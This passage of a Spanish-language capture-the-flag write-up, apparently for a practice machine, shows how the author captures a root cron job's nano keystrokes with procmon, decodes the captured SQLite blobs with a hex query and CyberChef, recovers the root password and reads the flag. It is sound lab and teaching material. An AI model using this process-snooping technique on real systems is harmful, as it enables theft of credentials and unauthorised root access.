
Cada diez minutos parece haber una tarea CRON por detrás que ejecuta `nano` y abre ese archivo.


`nano` al ejecutarse guarda la data en memoria ya que tiene que guardarlo en algún lado, podríamos intentar conseguir esta data con `procmon` para leer cual es el contenido del script.

Bien, podemos utilizar para ello `procmon`, tiene un parámetro `-p` para indicar el PID del proceso a monitorizar.

Luego podemos exportar este archivo con el parámetro `-e -c FILENAME`
```shell
sudo procmon -p 25232 -c output -e write
```

Esperamos un rato a que se ejecute el proceso y hacemos CTRL + C

Vemos que el archivo exportado es un archivo `SQLite`
```shell
tomas@lantern:/tmp$ file output
output: SQLite 3.x database, last written using SQLite version 3027002, file counter 1, database pages 52, cookie 0x1, schema 4, UTF-8, version-valid-for 1
```

Nos podemos compartir este archivo a nuestra máquina y ver que contiene.

Contiene 3 tablas.
```shell
sqlite> .tables
ebpf      metadata  stats
```


## Decoding the data
Voy a abrirlo con `sqlitebrowser` para trabajar mas cómodamente.

Vemos que hay data en formato `blob`.

Ya he trabajado varias veces en esta situación y la solución mas fácil es convertir esta data a hexadecimal utilizando la función `hex` y luego con [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')) Convirtiendo la data de hexadecimal para ver que contiene.


Y vemos un `echo` eso es buena señal.


Con SQLite3 vamos a exportar todo esto a un archivo.

Tras un buen rato de investigación esta es la consulta ganadora.
```SQL
SELECT hex(substr(arguments, 9, resultcode)) FROM ebpf WHERE resultcode > 0 ORDER BY timestamp;
```

La consulta está buscando eventos en la tabla `ebpf` donde hubo una operación exitosa o con resultado positivo (indicada por `resultcode > 0`). De esos eventos, está extrayendo una subcadena específica de los datos (`arguments`), comenzando en la posición 9 y con una longitud dictada por `resultcode`. Luego, convierte esta subcadena en un formato hexadecimal para su análisis. Finalmente, ordena los resultados en función del tiempo en que ocurrieron los eventos.

```shell
sqlite3 output.db 
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .output data.txt
sqlite> SELECT hex(substr(arguments, 9, resultcode)) FROM ebpf WHERE resultcode > 0 ORDER BY timestamp;
sqlite> .exit
```

Este archivo vamos a cargarlo en CyberChef y a descargar el output..


Vemos lo siguiente...
```shell
cat /home/pointedsec/Downloads/download.dat 
prog tag mismatch 7dbbaacckkuupp..sshh


e
e
echo Q 33Ee
e
echo Q 33EEddddttddww33ppMMBB | s uuddoo . //bbaacc
```

`Q33EEddddttddww33ppMMBB` no es la contraseña...

Como vemos que en la última línea en `s uuddoo` la primera `s` está bien escrita pero luego se repite un carácter por cada letra, podemos intentar quitar un carácter a partir de la `Q` en la supuesta contraseña.

Y nos queda lo siguiente: `Q3Eddtdw3pMB`

Y si intentamos migrar al usuario `root`
```shell
tomas@lantern:/tmp$ su root
Password: 
root@lantern:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

Podemos leer la flag de `root`
```shell
root@lantern:~# cat root.txt
c78762c714ec7d9d...
```

¡Y ya estaría!

Feliz Hacking! 🚀